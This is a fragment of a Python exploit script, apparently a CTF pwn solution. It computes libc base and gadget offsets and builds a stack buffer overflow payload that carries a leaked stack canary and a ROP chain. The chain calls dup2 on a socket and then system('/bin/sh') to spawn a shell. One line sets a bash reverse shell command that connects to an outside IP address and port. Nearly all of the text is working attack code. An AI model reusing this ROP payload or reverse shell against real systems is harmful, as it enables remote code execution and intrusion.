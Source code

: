 ```python
libc_base = addr_IO_proc_open - 0x06f860
libc_system = libc_base + offset['system']
rdi = libc_base + offset['pop_rdi']
libc_binsh = libc_base + offset['/bin/sh']
rsi = libc_base + offset['pop_rsi']
dup2 = libc_base + 0x00ebe90


info('libc_base	 : ' + hex(libc_base))
info('libc_system: ' + hex(libc_system))
info('libc_binsh : ' + hex(libc_binsh))
info('addr_buf : ' + hex(addr_buf))

#raw_input()

n = 60
#0x1cc
cmd = 'bash -c "bash -i >& /dev/tcp/163.44.172.213/51234 0>&1"'
cmd = 'bash -c "sh<&4>&4"'
cmd = 'ls'

sockfd = 4

payload  = "a" * 0x138
payload += p64(canary)
payload += 'SORISUGI'

payload += p64(rdi)
payload += p64(sockfd)
payload += p64(rsi)
payload += p64(0)
payload += p64(dup2)

payload += p64(rdi)
payload += p64(sockfd)
payload += p64(rsi)
payload += p64(1)
payload += p64(dup2)

"""
payload += p64(rdi)
payload += p64(sockfd)
payload += p64(rsi)
payload += p64(2)
payload += p64(dup2)
"""
payload += p64(rdi)
payload += p64(libc_binsh)
payload += p64(libc_base + offset['system'])

#0x1cc
print hex(len(payload))
func2()
c.sendall(payload)

time.sleep(0.1)

c.shell()

```

